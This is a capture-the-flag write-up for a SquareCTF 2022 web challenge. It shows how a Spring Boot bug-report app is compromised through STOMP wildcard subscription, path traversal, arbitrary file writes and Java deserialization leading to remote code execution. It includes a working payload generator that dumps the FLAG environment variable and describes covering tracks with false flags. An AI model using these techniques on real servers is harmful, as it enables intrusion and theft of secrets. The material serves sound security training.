








#### SquareCTF/web/500
# Developer's Hubris
by Arc'blroth

All-in-all this has probably been the hardest challenge I've solved to date, and definitely one of the most fun. The feeling of each exploit peeling back another layer of the challenge kept it interesting all the way from reconnaissance to cleanup!

## The Flavortext

> You're a new security engineer at the company, and you just found a fairly old, unfinished application running in a staging environment that is exposed to the internet. You bring this up to the developers, since it seems likely that hackers will look for ways to use this application as an entrypoint into the corporate environment. However, they tell you that it's just a basic bug report submission portal, and any dangerous code has been removed or hidden, so it should be safe. See if they left any loose ends that could be used to compromise the entire application
>
> http://chals.2022.squarectf.com:4104

Interestingly, there is no source code is given for this challenge... or is there?

## A Half-Implemented Server

As the flavortext mentions, the first page we see on this server is a bug report page.



You can provide a name, subject, and message and then click `Submit`, which then runs `POST /reports/submit` and returns a page saying `Thank you for your submission!`.

Running `GET /reports/submit` without posting any data prints out a giant stack trace


which leaks the fact that the server is a Java Spring Boot application. A quick search of CVEs for Whitelabel reveals a 2015 Spring Boot Expression Language [injection attack](https://www.acunetix.com/vulnerabilities/web/spring-boot-whitelabel-error-page-spel/). However, trying to trigger the attack fails with either
- a successful report submit
- the same error page
- the below error page
- or an Apache Tomcat 500 error about invalid URL characters

and no additional exfiltrated information.

Interestingly, if you provide invalid parameters to `/reports/submit` (ie leave any field blank on the bug report form), you'll get back an error message:


Since the ID of this error changes on every submit, I wonder if we can somehow access the error logs and whatever information is contained therein. But first, let's take a step back:

## Plz Help

For web challenges, probably the easiest first step is to open the Developer Tools and see if there's any clues left behind. Sure enough, we quickly find that someone has commented out a little help form under the report submission form:





There's two ways to launch the help menu: delete the `disabled` attribute on the Launch Help button, or just directly call the `connect()` method from `help.js`:



From examining `help.js`, we see that this uses a [STOMP-over-WebSocket](http://jmesnil.net/stomp-websocket/doc/) protocol to communicate with the server.

Clicking one of the three radio buttons and then clicking Show logs the following:

```txt
>>> SEND
destination:/app/help
content-length:62

{"module":"Contact","subId":"2661831936870739581985997971664"}� 

<<< MESSAGE
destination:/queue/2661831936870739581985997971664
content-type:application/json
subscription:sub-0
message-id:4y403w3j-11899
content-length:115

{"content":"To contact us, call our number 555-555-5555, or email us at thisisnotavalidemail@pleasedonttrythis.no"}�
```

```txt
>>> SEND
destination:/app/help
content-length:61

{"module":"Report","subId":"2661831936870739581985997971664"}� 

<<< MESSAGE
destination:/queue/2661831936870739581985997971664
content-type:application/json
subscription:sub-0
message-id:4y403w3j-11900
content-length:286

{"content":"Please note that due to technical constraints, we cannot store multiple reports with the same subject line, and any new reports will overwrite existing reports with the same subject line, so be sure to use our report lister to see which reports have already been submitted"}�
```

```txt
>>> SEND
destination:/app/help
content-length:59

{"module":"Time","subId":"2661831936870739581985997971664"}� 

<<< MESSAGE
destination:/queue/2661831936870739581985997971664
content-type:application/json
subscription:sub-0
message-id:4y403w3j-11901
content-length:168

{"content":"It may seem like reports never get passed the Open status, but please be patient. We are very short-staffed and are addressing reports as quick as we can."}
```

From the help text for Report, we know that a new report will overwrite an older report with the same subject, which seems like a possible vulnerability.

All three of these responses can be triggered with the code
```js
stompClient.send("/app/help", {}, JSON.stringify({"module":"<module>","subId": subId}))
```

where `<module>` is one of `Contact`, `Report`, or `Time`.

## Every Challenge is Actually OSINT

At this point, I actually got a bit stuck on what to do next. I wondered if there were any other endpoints implemented for the Stomp API, but testing seemed to show that `/app/help` was the only one available:

```js
>> stompClient.send("/app/errors", {}, JSON.stringify({"subId": subId}))

(no response from the server)
```

Something I noticed from the STOMP logs above was that every return message from the server had a destination field set to `/queue/<subId>`, where `<subId>` was my randomly generated subscription id. Did that mean I could actually send messages to *any* other client connected to the server?


Sure thing!

A second discovery I made while reading through the STOMP spec is that wildcards are allowed when specifying what to subscribe to.

```js
stompClient.subscribe("/queue/*")
```

Suddenly, we can see not only our own messages, but also the messages sent back to _every other team on the server_.

```
Unhandled received MESSAGE: MESSAGE
content-length:131
message-id:rvh01e13-745
subscription:sub-2
content-type:application/json
destination:/queue/9467772506734481705419699954668
content-length:131

{"content":"java.nio.file.NoSuchFileException: /DevelopersHubris/src/main/java/com/example/developershubris/config/WebConfig.java"}
```

Wait. Is there a file access vulnerability?

```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../as", 'subId': subId}));
<< {"content":"java.nio.file.NoSuchFileException: /DevelopersHubris/as"}
```

Things are about to get a whole lot more interesting.

### Interlude: Undocumented Feature

Since we can subscribe to the messages sent to every team, we can also figure out their subscription ids and send messages to other teams. Take that, Anonymous <sup>[<a href="http://chals.2022.squarectf.com:4105/">citation needed</a>]</sup> Crushes&trade;!

```js
>> stompClient.send("/queue/9467772506734481705419699954668", {}, JSON.stringify({content: "lmao this is actually an https://xkcd.com/1305/ moment"}))
```

```txt
Unhandled received MESSAGE: MESSAGE
content-length:21
message-id:sld1a33g-662
subscription:sub-3
content-type:application/json
destination:/queue/58653386571563056218719035278836
content-length:21

{"content":"hithere"}
```
<center><i>Figure: rare instance of two CS majors engaged in social communication /s</i></center>

## Enterprise Naming Schemes

At this point, it's a race to exfiltrate the working directory of the server. One important caveat of getting files through `/app/help` is that the server prevents you from getting any folder outside of the working directory:

```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../../", 'subId': subId}))
<< {"content":"com.example.developershubris.PathSecurityUtil$PathSecurityException: Cannot access files outside of the application directory"}
```

Though we can't access the root filesystem, we can take educated guesses on what files exist where based on the conventions of Java and Spring. I based many of these guesses on the file structure of [this](https://github.com/spring-projects/spring-petclinic) example Spring Boot project.

```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../Errors", 'subId': subId}))
<< {"content":"java.io.IOException: Is a directory"}
```

From the URLs we've visited so far, we can find that `/Reports` and `/Errors` are directories. From knowledge of Spring projects and the messages sent back to other teams, we can find that
- `.mvn/`
- `src/[main|test]/java/com/example/developershubris`
-  `src/resources/java/`
	-  `src/resources/java/templates`
	-  `src/resources/java/static`

are all valid directories.

The example Spring project linked above gives `PetclinicApplication.java` as its main class. Sure enough, we can find a `src/main/java/com/example/developershubris/DevelopersHubrisApplication.java` file:
```java
package com.example.developershubris;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class DevelopersHubrisApplication {
    public static void main(String[] args) {
        SpringApplication.run(DevelopersHubrisApplication.class, args);
    }
}
```

as well as various Spring Controllers and their dependencies for the various parts of the application we've found so far. We'll start with the first controller I found, `ReportController`:

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Path;
import java.util.ArrayList;
import java.util.Arrays;
import java.util.List;
import java.util.stream.Collectors;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class ReportsController {
    @GetMapping("/reports")
    public String getReports(@RequestParam() String name, Model model) throws IOException {
        Path reportsPath = PathSecurityUtil.GetSafePath("Reports/" + name);
        File reportsDirectory = reportsPath.toFile();
        List<String> reportsNames = new ArrayList<>();
        if (reportsDirectory.exists()) {
            File[] reportFiles = reportsDirectory.listFiles((reportFile) -> !reportFile.isHidden());
            if (reportFiles != null)
                reportsNames = Arrays.stream(reportFiles).map(File::getName).collect(Collectors.toList());
        }
        model.addAttribute("name", name);
        model.addAttribute("reports", reportsNames);
        return "reports";
    }

    @GetMapping("/reports/submit") public String getReportsSubmit (){ return "index"; }

    @PostMapping("/reports/submit") @ResponseBody public String postReportsSubmit (@RequestParam() String name, @RequestParam() String subject, @RequestParam() String message) throws IOException {
        // TODO: Encrypt reports using key stored in env variable
        // String key = System.getenv("FLAG");
        Path reportsDirectoryPath = PathSecurityUtil.GetSafePath("Reports/" + name);
        File reportsDirectory = reportsDirectoryPath.toFile();
        if(!reportsDirectory.exists() && !reportsDirectory.mkdir()) {
            return "Sorry, a new folder couldn't be created for your reports";
        }
        File reportFile = PathSecurityUtil.GetSafePath(reportsDirectoryPath, subject).toFile();
        if(!reportFile.exists()) { if(!reportFile.createNewFile()) return "Sorry, the new report could not be saved"; }
        try (FileWriter reportFileWriter = new FileWriter(reportFile)) {
            reportFileWriter.write(message);
        }
        return "Thank you for your submission!";
    }
}
```

`ReportsController` gives us three important things:
- the location of the flag in an environmental variable appropriately named `FLAG`
- arbitrary file writing to `/DevelopersHubris/Reports/<name>/<subject>` with the raw content `<message>`
	- since neither `<name>` nor `<subject>` is sanitized, this gives us trivial write access to anywhere in the working directory
- the `/reports?name=<path>` endpoint, which we can trivially exploit to get a directory listening of every file under the working directory
  
  <center><i>that's a lot of files people have been writing!</i></center>

> Note that I did not realize the second or third bullet points until after brute-force finding several other of the classes listed below. In my defense, it was 1 am!

So now that we know where the flag is, all we need a way to extract it.

### Interlude: Other Interesting Files

In the ~4 hours it took me to figure out the rest of the solution below, I looked a variety of other interesting files on the server. Here's a brief summary:

- `pom.xml` - confirms that the server is written on the latest version of Spring Boot and thus has no known CVEs. Doesn't contain any env variables :&#8203;(
- `src/main/resources/application.properties` - enables the Whitelabel error page but doesn't contain any env declarations :&#8203;(
- `target/DevelopersHubris-1.0.0.jar.original` - because all files are sent back after being converted to UTF-8 against their will, we can't actually download this jar file, and analysis of the intact portions don't reveal anything different from `src/target/DevelopersHubris-1.0.0.jar`.
- `target/classes/*` - the only interesting class here is `PathSecurityUtil.class`, which actually implements the path security checking algorithm `Path#startsWith(Path.of(""))`. That algorithm is weirdly missing from the source code of this class in `src/main/java/com/example/developershubris/PathSecurityUtil.java`.
- `target/surefire-tests/*` and `src/test/java/com/example/developershubris/DevelopersHubrisApplicationTests.java` - all 13 tests in here test that PathSecurityUtil work, and all 13 succeed according to the surefire output. Trying to pwn PathSecurityUtil is probably the wrong path to take.
- `Help/Errors` - there's an extra help topic not listed in the frontend that hints at a `/diagnostics` endpoint where you can view error logs. (at time of writing this writeup, someone has overwritten this help topic with `"aaaaa"` lmao)

## The Missing Controller

`WebSocketConfig` and `HelpController` are both related to the code that handles the STOMP-over-Websocket server, and looking at these classes confirms that there is indeed no other endpoint other than `/app/help`.

The last two controllers, however, bring a lot more to the table.

```java
package com.example.developershubris;

import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.ArrayList;
import java.util.List;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.apache.commons.codec.binary.Base64InputStream;

@Controller()
public class DiagnosticsController {

  @GetMapping ("/diagnostics")
  public String getDiagnostics 
(@RequestParam() String errorID, Model model) throws IOException, ClassNotFoundException {

    File errorFile = PathSecurityUtil.GetSafePath("./Errors/." + 
errorID).toFile();

    Exception errorObject = null;
    try (FileInputStream fileIn = new FileInputStream(errorFile);
         Base64InputStream base64In = new 
Base64InputStream(fileIn);
         ObjectInputStream in = new ObjectInputStream(base64In)) {
      errorObject = (Exception) in.readObject();
    }

    
List<Throwable> causes = new ArrayList<>();
    Throwable cause = errorObject.getCause();
    while(cause != null){
      causes.add(cause);
      cause = 
cause.getCause();
    }


    model.addAttribute("error", errorObject);
    model.addAttribute("causes", causes);
    return "diagnostics";
  }
}
```

`DiagnosticsController` implements the `/diagnostics` endpoint hinted in the `Help/Error` help topic.

There's three things that are interesting here:
- Each error log is just a Java Exception object that has been serialized and base64-encoded.
- Error logs get stored in `/Errors` as `.<id>`, which also means that the logs are hidden. (If you look at the source code for `ReportController`, you'll notice that it doesn't list hidden files, effectively making the logs readable only if you know the UUID. We'll abuse this for our own purposes later...)
- Crucially, the construction of the path for each error log can be abused to force the page to load from _any_ file: `"./Errors/." + "./<path>"`

> Although the Diagnostics page only gives you the message of the exception in the error log, since the log is base64-encoded you can easily read the file yourself and decode the full stack trace using a tool like [this SerializationDumper](https://github.com/NickstaDB/SerializationDumper). This can be useful for developing and debugging the final solution below.

So now we have arbitrary file writing and arbitrary file reading. We'll need one last component: developer hubris.

```java
// AppSec team doesn't want us implementing hidden Command endpoints for remote administration
// They said to delete it altogether, but I don't see why commenting out just this Controller
// would be any less secure
//@Controller
public class CommandController {

  @GetMapping("/command")
  @ResponseBody
  public String getCommand (@RequestParam() String command) throws IOException {
    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
    oos.writeObject(new Command(command));
    oos.close();
    return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
  }

  @PostMapping("/command")
  @ResponseBody
  public String postCommand (@RequestParam() String commandObjectSerializedEncoded)
      throws IOException, ClassNotFoundException {

    String fileName = java.util.UUID.randomUUID().toString();
    byte[] commandObjectSerialized = Base64.getDecoder().decode(commandObjectSerializedEncoded);
    try (ByteArrayInputStream commandIn = new ByteArrayInputStream(commandObjectSerialized);
         ObjectInputStream in = new ObjectInputStream(commandIn);) {
      Command commandObject = (Command)in.readObject();

      try (FileOutputStream fileOut = new FileOutputStream(PathSecurityUtil.GetSafePath("Errors/" + fileName).toFile());
           ObjectOutputStream out = new ObjectOutputStream(fileOut);) {
        out.writeObject(commandObject);
      }
    }

    return fileName;
  }
}
```

```java
package com.example.developershubris;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Command implements java.io.Serializable {

  public String command;
  public Command(String command)
  {
    this.command = command;
  }

  private void writeObject(java.io.ObjectOutputStream out)
      throws IOException, ClassNotFoundException {

    out.writeUTF(this.command);
  }

  private void readObject(java.io.ObjectInputStream in)
      throws IOException, ClassNotFoundException, InterruptedException {
    this.command = in.readUTF();
    String[] commandArray = this.command.split(" ", 3);
    Process commandProcess = Runtime.getRuntime().exec(commandArray);
    int commandProcessExitCode = commandProcess.waitFor();
    StringBuilder commandStringBuilder = new StringBuilder();
    if(commandProcessExitCode != 0) {
      BufferedReader commandOutputReader =
            new BufferedReader(new InputStreamReader(commandProcess.getInputStream()));
      String commandOutputLine;
      while ((commandOutputLine = commandOutputReader.readLine()) != null)
        commandStringBuilder.append(commandOutputLine);

      BufferedReader commandErrorReader =
            new BufferedReader(new InputStreamReader(commandProcess.getErrorStream()));
      String commandErrorLine;
      while ((commandErrorLine = commandErrorReader.readLine()) != null)
        commandStringBuilder.append(commandErrorLine);

      throw new RuntimeException(commandStringBuilder.toString());
    }
  }
}
```

`CommandController` and `Command` together implement a hidden RCE endpoint. By running a `POST /command` + `GET /command`, we can execute any code on the server that we want.

Except there's one problem with this: `CommandController` has been disabled. `/command` doesn't exist. So there goes our RCE exploit, right?

> Side Note: I spent way too long trying to find an already-serialized Command object in the Errors/ folder or finding a way to enable `CommandController`, until I finally realized that I *already* had a way to read and write commands.

Except we don't need `CommandController` at all. Using the report form, we can easily write a base64 serialized Command to a file on the server, and then force Java to run that command by deserializing the file in `DiagnosticsController`. Solution achieved!

## I Haven't Touched Java Serialization Since 7th Grade

To implement our solution, we'll prepare our command payload with the following script:
```java
package com.example.developershubris;

import java.io.BufferedReader;
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class Command implements java.io.Serializable {

  private static final long serialVersionUID = -8866164100353562796L;

  public String command;
  public Command(String command)
  {
    this.command = command;
  }

  private void writeObject(java.io.ObjectOutputStream out)
      throws IOException, ClassNotFoundException {
    out.writeUTF(this.command);
  }

  private void readObject(java.io.ObjectInputStream in)
      throws IOException, ClassNotFoundException, InterruptedException {
		// -- snip --
  }

  public static void main(String[] args) throws Throwable {
    Command c = new Command("bash -c echo $FLAG >> /DevelopersHubris/Errors/.psibetarho.flag");
    
    var b = new ByteArrayOutputStream();
    new ObjectOutputStream(b).writeObject(c);
    var b2 = Base64.getEncoder().encode(b.toByteArray());
    new FileOutputStream("./in.txt").write(b2);
  }
}
```

```bash
$ java com/example/developershubris/Command.java
```

> Note that the `serialVersionUID` was obtained by deploying the payload without defining one, copying the right UID from the resulting error message, and recompiling the payload again.

> Note that we write the flag into a file beginning with a dot so that other teams can't trivially find it.

We'll then upload it by submitting `input.txt` into the report form:



Execute it by going to `/diagnostics?errorID=./Reports/PsiBetaRho/YourMom`:


And then read the flag using the help client:
```js
>> stompClient.send("/app/help", {}, JSON.stringify({'module': "../Errors/.psibetarho.flag", 'subId': subId}))
<< {"content":"flag{8db7145f70954219ba589a54586710da}\n"}
```

Woo! (This definitely didn't take 7 hours or anything for me to solve, lol)

## Bonus: Cleanup

There's one problem with our solution: at this point, literally anyone could find the report we created and reverse-engineer our solution and flag. That's no good!

Luckily, you might recall from the very beginning of this challenge that reports with the same subject are overwritten. This makes sense looking at the code - the reports are just written to files on submit. So using the form that started it all, we can overwrite the evidence, and maybe add a false flag or two:




